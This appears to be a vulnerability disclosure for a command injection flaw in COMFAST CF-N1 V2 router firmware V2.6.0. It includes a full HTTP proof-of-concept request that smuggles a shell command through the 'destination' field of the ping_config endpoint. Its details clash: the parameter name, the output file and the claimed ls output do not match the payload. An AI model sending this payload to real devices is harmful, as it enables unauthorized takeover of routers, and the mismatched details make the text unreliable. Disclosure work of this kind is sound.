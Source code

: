 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

PS：Using tools like qemu to set up the environment may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET\&section=ping\_config HTTP/1.1

Host: cflogin.cn

Content-Length: 124

Accept: application/json, text/javascript, \*/\*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: application/json

Origin: http://cflogin.cn

Referer: http://cflogin.cn/guide/guide\_router.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: COMFAST\_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567

Connection: close

{"destination": "127.0.0.1\"; echo  ping config >  /www-comfast/test.txt #"}
```


*   **Assumptions**: The vulnerable parameter is named `ping_target` (adjust if the actual parameter name differs based on further analysis).

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/ping_test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/ping_test.txt`, confirming arbitrary command execution.
*   
![PoC 2 Result: Root Directory Listing](./imgs/3.png)


